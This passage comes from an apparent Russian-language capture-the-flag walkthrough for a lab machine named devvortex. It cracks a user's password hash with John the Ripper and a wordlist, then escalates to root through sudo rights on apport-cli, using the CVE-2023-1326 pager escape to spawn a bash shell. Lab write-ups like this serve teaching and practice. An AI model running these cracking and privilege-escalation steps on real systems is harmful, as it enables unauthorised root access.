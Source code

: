 Скопируйте хэш и сохраните его в файл john.hash для брутфорс-атаки **john the ripper**.

## 15. Брутфорсинг хеша с Джоном

```
john --wordlist=/usr/share/wordlists/rockyou.txt john.hash 
```
![plot](./screens/11.png)

У нас есть пароль для входа пользователя logan

## 16. Подключиться по ssh или su

Подключитесь к серверу с ssh в качестве логина пользователя.

Показать разрешения sudo для выполнения команды

```bash
logan@devvortex:~$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

И посмотрите полное разрешение sudo для неизвестных утилит apport-cli.

Найдите информацию о том, как повысить привилегии с помощью этой утилиты, и найдите этот метод.

посмотрите эту утилиту и найдите CVE для локального повышения привилегий.

https://github.com/diego-tella/CVE-2023-1326-PoC командой:

```bash
sudo apport-cli -p ssh -f rep.crash --save rep.crash /usr/sbin/sshd
```

создайте еще один файл сбоя и запустите команду эксплойта

```bash
sudo /usr/bin/apport-cli -c /tmp/rep.crash
press V (view report)
!/bin/bash
```
